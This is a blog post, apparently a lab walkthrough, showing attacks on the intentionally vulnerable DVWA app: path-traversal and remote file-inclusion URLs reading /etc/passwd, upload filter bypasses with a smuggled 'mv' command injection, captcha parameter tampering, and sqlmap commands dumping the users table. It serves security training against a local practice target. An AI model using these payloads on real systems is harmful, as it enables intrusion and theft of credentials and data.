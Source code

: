 ```yaml
---
layout: post
title: DVWA - Part 2
categories: [Vulnerable Web Applications]
tags: [DVWA, OWASP ZAP, file inclusion, file upload, captcha, SQL injection]

---
```


This is the second part exploring DVWA. For the first part, click [here](https://marselia.github.io/vulnerable%20web%20applications/2020/05/09/DVWA.html).

In this post, we will see vulnerabilities for:

- File inclusion
- File upload
- Captcha
- SQL

## File inclusion

This happens in dynamic pages with PHP as a result of a fault in the programming of the page. This is why the attacker could modify some files and parameters.

LOW - MEDIUM - HIGH:

LOW:
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=file4.php
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../robots.txt
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../phpinfo.php
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../bootmgr
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=../../../../../../etc/passwd
- http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://127.0.0.1/evilphp.php

MEDIUM:
We can't use ../, so change it to ..././ :
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=..././..././robots.txt

HIGH:
Try to use this:
- https://127.0.0.1/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/robots.txt


## File upload

You can encapsulate malicious code in inert file types.

LOW - MEDIUM - HIGH:

- LOW: Upload a malicious file.
- MEDIUM: Send a POST Request with the malicious file and change the Content-Type to image/jpeg.
- HIGH: Change the malicious file extension to jpeg and change the file signature to jpeg signature with hexedit. Then, in the command injection section, write this: 
```
127.0.0.1|mv ../../hackable/uploads/test.png ../../hackable/uploads/test.php
```
## Insecure Captcha

Captchas are generally used to prevent robots from performing an action instead of humans.

LOW - MEDIUM - HIGH:

LOW: Change the step=1 to step=2.
```
http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=2&password_new=q&password_conf=q&Change=Change
```
MEDIUM: We need to change the passed_captcha to True.
```
http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=2&password_new=q&password_conf=q&passed_captcha=true&Change=Change
```
HIGH: Change the User-Agent to reCAPTCHA.
```
http://127.0.0.1/DVWA/vulnerabilities/captcha/?step=1&password_new=123&password_conf=123&recaptcha_response_field=hidd3n_valu3&Change=Change
```

## SQL injection blind

It is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response. 

LOW - MEDIUM - HIGH:

LOW:
Using wordlists or by hand only we can get the same message: "we find this user id in ddbb". For this reason, we will use sqlmap tool.

```
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1+or+sleep%28__TIME__%29%23&Submit=Submit" --cookie="security=low; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" –dbs
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1+or+sleep%28__TIME__%29%23&Submit=Submit" --cookie="security=low; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" -D dvwa –tables

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1+or+sleep%28__TIME__%29%23&Submit=Submit" --cookie="security=low; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" -D dvwa -T users –dump
```
![]({{ site.baseurl }}/images/DVWA-6.jpg)

MEDIUM:
```
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/" --cookie="security=medium; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" --data="id=3&Submit=Submit" --dbs 
//OPTION 2:
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=3&Submit=Submit" --cookie="security=medium; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n" –dbs
//and you have to follow the same steps as low level
```

HIGH:
- Referer: https://127.0.0.1/DVWA/vulnerabilities/sqli_blind/cookie-input.php
- Cookie: id=1%27; security=high; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n
- Data: id=1%27&Submit=Submit
```
sqlmap -u “http://127.0.0.1/DVWA/vulnerabilities/sqli_blind/?id=1%27&Submit=Submit” --cookie=”security=high; PHPSESSID=b8jch8ondgrdoikuq5ap78ci7n” --dbs
//and you have to follow the same steps as low level
```
